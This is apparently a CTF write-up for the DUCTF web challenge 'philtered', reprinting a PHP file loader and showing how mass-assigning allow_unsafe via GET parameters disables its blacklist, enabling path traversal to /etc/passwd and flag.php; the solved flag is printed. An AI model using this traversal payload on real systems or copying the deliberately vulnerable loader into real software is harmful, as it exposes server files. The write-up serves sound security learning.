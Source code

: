 # 🏷️ philtered

**Category:** Web  
**Description:**  
> Can you phigure this one out?

---

## 📦 Challenge Files
We are given a `src.zip` containing some PHP files.  
The most important files are:

**flag.php**
```php
<?php $flag = 'DUCTF{TEST_FLAG}'; ?>
```
**index.php**
```php
<?php

class Config {
    public $path = 'information.txt';
    public $data_folder = 'data/';
}

class FileLoader {
    public $config;
    // idk if we would need to load files from other directories or nested directories, but better to keep it flexible if I change my mind later
    public $allow_unsafe = false;
    // These terms will be philtered out to prevent unsafe file access
    public $blacklist = ['php', 'filter', 'flag', '..', 'etc', '/', '\\'];
    
    public function __construct() {
        $this->config = new Config();
    }
    
    public function contains_blacklisted_term($value) {
        if (!$this->allow_unsafe) {
            foreach ($this->blacklist as $term) {
                if (stripos($value, $term) !== false) {
                    return true;    
                }
            }
        }
        return false;
    }

    public function assign_props($input) {
        foreach ($input as $key => $value) {
            if (is_array($value) && isset($this->$key)) {
                foreach ($value as $subKey => $subValue) {
                    if (property_exists($this->$key, $subKey)) {
                        if ($this->contains_blacklisted_term($subValue)) {
                            $subValue = 'philtered.txt'; // Default to a safe file if blacklisted term is found
                        }
                        $this->$key->$subKey = $subValue;
                    }
                }
            } else if (property_exists($this, $key)) {
                if ($this->contains_blacklisted_term($value)) {
                    $value = 'philtered.txt'; // Default to a safe file if blacklisted term is found
                }
                $this->$key = $value;
            }
        }
    }

    public function load() {
        return file_get_contents($this->config->data_folder . $this->config->path);
    }
}

// Such elegance
$loader = new FileLoader(); 
$loader->assign_props($_GET);

require_once __DIR__ . '/layout.php';

$content = <<<HTML
<nav style="margin-bottom:2em;">
    <a href="index.php">Home</a> |
    <a href="aboutus.php">About Us</a> |
    <a href="contact.php">Contact</a> |
    <a href="gallery.php">Gallery</a>
</nav>
<h2>Welcome to Philtered</h2>
HTML;

$content .= "<p>" . $loader->load() . "</p>";

$content .= "<h3>About Us</h3>";
$loader->config->path = 'aboutus.txt';
$content .= "<p>" . $loader->load() . "</p>";

$content .= "<h3>Our Values</h3>";
$loader->config->path = 'our-values.txt';
$content .= "<p>" . $loader->load() . "</p>";

$content .= <<<HTML
<h3>Contact</h3>
<ul>
    <li>Email: info</li>
    <li>Please don't talk to us, we don't like it</li>
</ul>
HTML;

render_layout('Philtered - Home', $content);
?>
```

We can see here that we have lfi with some filters 

```php
class Config {
    public $path = 'information.txt';
    public $data_folder = 'data/';
}

class FileLoader {
    public $config;
    // idk if we would need to load files from other directories or nested directories, but better to keep it flexible if I change my mind later
    public $allow_unsafe = false;
    // These terms will be philtered out to prevent unsafe file access
    public $blacklist = ['php', 'filter', 'flag', '..', 'etc', '/', '\\'];
    
    public function __construct() {
        $this->config = new Config();
    }
    
    public function contains_blacklisted_term($value) {
        if (!$this->allow_unsafe) {
            foreach ($this->blacklist as $term) {
                if (stripos($value, $term) !== false) {
                    return true;    
                }
            }
        }
        return false;
    }

    public function assign_props($input) {
        foreach ($input as $key => $value) {
            if (is_array($value) && isset($this->$key)) {
                foreach ($value as $subKey => $subValue) {
                    if (property_exists($this->$key, $subKey)) {
                        if ($this->contains_blacklisted_term($subValue)) {
                            $subValue = 'philtered.txt'; // Default to a safe file if blacklisted term is found
                        }
                        $this->$key->$subKey = $subValue;
                    }
                }
            } else if (property_exists($this, $key)) {
                if ($this->contains_blacklisted_term($value)) {
                    $value = 'philtered.txt'; // Default to a safe file if blacklisted term is found
                }
                $this->$key = $value;
            }
        }
    }

    public function load() {
        return file_get_contents($this->config->data_folder . $this->config->path);
    }
}
```
To get a working lfi we can do this `/index.php?allow_unsafe=1&config[path]=../../../../../../../etc/passwd`

this will make allow_unsafe set to true -> `public $allow_unsafe = false;` to disable the blacklist


<img src='https://github.com/Yazan03/CTF-writeups2025/blob/main/DU%20CTF/philtered/images/1.PNG?raw=true'>

also in this way we can control the path, getting the flag `/index.php?allow_unsafe=1&config[path]=../flag.php`

<img src='https://github.com/Yazan03/CTF-writeups2025/blob/main/DU%20CTF/philtered/images/2.PNG?raw=true'>

Solve on remote : 


<img src='https://github.com/Yazan03/CTF-writeups2025/blob/main/DU%20CTF/philtered/images/3.PNG?raw=true'>
FLAG : `DUCTF{h0w_d0_y0u_l1k3_y0ur_ph1lters?}`
